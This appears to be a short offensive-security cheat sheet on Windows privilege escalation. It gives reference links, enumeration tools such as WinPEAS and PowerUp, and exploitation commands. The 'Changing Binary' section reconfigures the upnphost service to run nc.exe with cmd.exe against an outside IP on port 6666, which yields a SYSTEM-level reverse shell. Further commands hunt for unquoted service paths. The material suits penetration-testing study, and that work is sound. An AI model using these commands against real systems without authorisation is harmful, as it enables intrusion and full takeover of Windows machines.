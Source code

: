 Windows Privilege Escalation

************************************************WINDOWS Prvilege Escalation************************************************

1. Automated Scripts

	https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
	https://www.fuzzysecurity.com/tutorials/16.html
	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
	https://guif.re/windowseop
	Powerless.bat
	JAWS.ps1
	Sherlock.ps1 (Find-AllVulns)
	PowerUp.ps1 (Invoke-AllChecks)
	WinPEAS.exe
	windows-privesc-check2.exe --dump -G					# Windows privesc shows groups on system
	windows-privesc-check2.exe --audit --all -o output.txt	# Windows privesc shows all system data
	windows-exploit-suggester.py --impact "elevation of privilege" systeminfo.txt
	
2. Changing Binary

	sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"cd 
	sc config upnphost obj= ".\LocalSystem" password= ""
	sc config upnphost depend= ""

3. Unquoted Service Paths

	# Using WMIC
	wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

	# Using scsc 
	sc query
	sc qc service name

	# Look for Binary_path_name and see if it is unquoted.
	
